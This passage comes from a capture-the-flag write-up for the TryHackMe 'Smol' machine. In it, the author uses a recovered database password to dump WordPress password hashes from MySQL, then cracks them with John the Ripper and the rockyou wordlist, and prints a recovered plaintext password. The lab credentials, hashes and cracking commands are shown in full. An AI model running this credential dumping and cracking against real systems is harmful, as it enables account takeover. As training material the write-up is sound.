 As we had a database user’s password, let’s enumerate database:

```bash
www-data@smol:/home$ mysql -u wpuser -p
mysql -u wpuser -p
Enter password: kbLSF2Vop#lw3rjDZ629*Z%G

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 141
.... 
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpress          |
+--------------------+
5 rows in set (0.00 sec)

mysql> use wordpress
....
mysql> select user_login,user_pass from wp_users;
select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
| wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. |
| think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
| gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
| diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
| xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 |
+------------+------------------------------------+
6 rows in set (0.00 sec)

```

We had password hashed for all the accounts registered in that machine, so let’s try to crack them:

first of all , store those hashed in a .txt file.

And we will be using john the ripper to crack those hashes with rockyou.txt wordlist.

```bash
┌──(kali㉿kali)-[~/tryhackme/smol]
└─$ cat hashes.txt  
admin:$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX.
think:$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/
gege:$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
xavi:$P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1

┌──(kali㉿kali)-[~/tryhackme/smol]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt  
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
....

┌──(kali㉿kali)-[~/tryhackme/smol]
└─$ john  hashes.txt --show
diego:sandiegocalifornia
```
